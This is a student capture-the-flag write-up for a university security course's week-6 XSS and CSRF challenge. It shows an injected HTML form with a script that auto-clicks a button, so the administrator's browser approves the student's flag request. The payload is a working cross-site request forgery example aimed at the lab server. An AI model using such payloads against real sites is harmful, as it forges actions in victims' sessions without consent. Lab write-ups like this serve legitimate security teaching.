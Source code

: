 # CTF WEEK 6 - XSS + CSRF

In the initial task, we encountered a web server located at ctf-fsi.fe.up.pt:5004. This server allowed us to submit requests to the administrator to obtain the flag.

Taking advantage of the ability to incorporate JavaScript, we attempted to leverage this feature. Employing the script below, we successfully obtained the flag for the initial challenge:

![Fig1](./imgs/CTFWEEK6/1.png)

It took some time for the flag to become visible, but the purpose of this code is to retrieve the HTML element with the ID "giveflag" and simulate a click on it. The rationale behind this is that the element, upon being clicked, triggers a function that provides us with the flag.

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestId>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click()
    </script>
</form>
```
We changed the requestId to the id of the request present on the website.

Here is the flag:
![Fig2](./imgs/CTFWEEK6/2.jpeg)
